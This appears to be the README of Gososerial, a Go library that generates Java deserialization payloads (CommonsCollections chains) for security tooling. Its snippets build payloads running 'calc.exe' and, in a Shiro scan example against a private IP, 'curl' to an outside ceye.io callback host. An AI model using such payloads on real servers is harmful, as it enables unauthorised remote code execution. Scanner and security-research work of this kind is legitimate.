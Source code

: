 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1--CC7，考虑后续加入常用的K1-K4和TomcatEcho

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Example: Shiro Scan Code

```go
func TestFindShiro(t *testing.T) {
	......
	target := "http://192.168.222.132:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
	......
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
